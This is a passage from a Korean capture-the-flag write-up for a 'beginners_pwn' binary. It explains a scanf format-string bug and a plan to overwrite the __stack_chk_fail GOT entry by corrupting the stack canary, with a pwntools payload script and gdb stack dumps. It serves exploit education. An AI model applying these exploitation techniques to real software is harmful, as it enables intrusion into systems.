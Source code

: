 `main()`에서는 `buf`에 `0x18`바이트의 문자열을 `readn()`으로 입력받는데, 특이한 점은 이 문자열을 format string으로 받아서 `scanf()`를 호출한다는 것이다. 여기서 FSB를 어떻게 잘 써봐야할 것 같다.

---

## Exploit plan

우선 가장 먼저 생각해볼 수 있는 방법은 `buf`에 `"%s"`를 넣어서 BOF를 발생시키는 것이다. 하지만 canary가 있기 때문에 단순히 그렇게는 return address에 접근할 수 없다.

```shell
gdb-peda$ checksec
CANARY    : ENABLED
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```

보호기법을 확인해 보면 PIE가 꺼져 있고 Partial RELRO이다. canary가 오염되었을 때 호출되는 함수인 `__stack_chk_fail()`의 GOT를 덮을 수 있다면, 일부러 canary를 변조해서 실행 흐름을 조작할 수 있을 것 같다. `buf`의 어딘가에 GOT 주소를 넣어 두고 `"%s"`와 `"%d"`를 적절히 이용하면 GOT를 덮으면서 동시에 canary도 변조할 수 있다.

`printf("%7$d");`처럼 쓰면 64비트 기준으로, 레지스터 5개를 건너뛰고 `rsp`부터 2번째 공간(`rsp+0x8`)에 저장된 주소를 매개변수로 받아서 그 주소에 저장된 4바이트 값을 정수로 출력한다. 마찬가지로, `scanf("%7$d");`처럼 쓰면 `rsp+0x8`에 저장된 주소를 매개변수로 받아서, 그 주소에 4바이트 정수를 입력받는 코드가 된다.

### trigger FSB

```python
from pwn import *

r = process("./beginners_pwn")

stackchk_got = 0x404018 # GOT address of __stack_chk_fail()

payload = "%" + "s %7$d"
payload = payload.ljust(8, '\x00')
payload += p64(stackchk_got)
pause()
r.sendline(payload)

r.interactive()
```

위와 같이 payload를 보내 주었을 때 스택의 상태를 보자.

```shell
gdb-peda$ x/6gx $rsp
0x7ffe7c256b00:	0x0064243725207325	0x0000000000404018
0x7ffe7c256b10:	0x00007ffe7c256c00	0x1967a311fd2b1900
0x7ffe7c256b20:	0x0000000000401260	0x00007f73b589ab97
gdb-peda$ x/s $rsp
0x7ffe7c256b00:	"%s %7$d"
```
